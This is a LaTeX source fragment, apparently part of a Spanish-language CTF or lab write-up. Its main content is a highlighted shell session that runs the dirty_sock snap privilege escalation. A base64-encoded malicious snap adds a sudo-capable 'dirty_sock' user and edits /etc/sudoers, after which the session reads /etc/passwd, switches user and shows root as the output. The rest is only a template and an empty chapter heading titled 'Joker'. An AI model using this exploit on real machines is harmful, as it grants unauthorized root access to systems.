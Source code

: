 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /tmp}
\ExtensionTok{pytho}\NormalTok{ -c }\StringTok{'print "aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD}
\StringTok{//////////xICAAAAAAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJhZGQgZGlydHlfc29}
\StringTok{jayAtbSAtcCAnJDYkc1daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1}
\StringTok{EMXNMeWFTOTdBd25KVXM3Z0RDWS5mZzE5TnMzSndSZERoT2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2Q}
\StringTok{gLWFHIHN1ZG8gZGlydHlfc29jawplY2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA+PiAvZXRjL3N}
\StringTok{1ZG9lcnMKbmFtZTogZGlydHktc29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZvciB}
\StringTok{leHBsb2l0CmRlc2NyaXB0aW9uOiAnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5nL2RpcnR5X3NvY2sKCiA}
\StringTok{gJwphcmNoaXRlY3R1cmVzOgotIGFtZDY0CmNvbmZpbmVtZW50OiBkZXZtb2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAA}
\StringTok{BaSLeNgPAZIACIQECAAAAADopyIngAP8AXF0ABIAerFoU8J/e5+qumvhFkbY5Pr4ba1mk4+lgZFHaUvoa1O5k6KmvF3F}
\StringTok{qfKH62aluxOVeNQ7Z00lddaUjrkpxz0ET/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4}
\StringTok{wDYsCAAAAAAFZWowA/Td6WFoAAAFpIt42A8BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2XR9JLRj}
\StringTok{NEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZecTuAfMJX82806GjaLtEv4x1DNYWJ5N5RQAAAEDvGfMAAWedAQAAAPt}
\StringTok{vjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAAAAAAAAAAAAAAAAAFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAA}
\StringTok{AAAAAPgMAAAAAAAAEgAAAAACAA" + "A"*4256 + "=="'} \KeywordTok{|} \ExtensionTok{base64}\NormalTok{ -d }\OperatorTok{>}\NormalTok{ setenso.snap}

\FunctionTok{sudo}\NormalTok{ /usr/bin/snap install setenso.snap --devmode}
\FunctionTok{cat}\NormalTok{ /etc/passwd}
\FunctionTok{sudo}\NormalTok{ dirty_sock }\OperatorTok{>}\NormalTok{ password dirty_sock}
\FunctionTok{sudo}\NormalTok{ su }\OperatorTok{>}\NormalTok{ password dirty_sock}

\FunctionTok{whoami}
\CommentTok{#Output}
\ExtensionTok{root}
\end{Highlighting}
\end{Shaded}

\hypertarget{joker}{%
\chapter*{Joker}\label{joker}}

\hypertarget{introduccion-3}{%
\section*{Introduccion}\label{introduccion-3}}
\end{document}
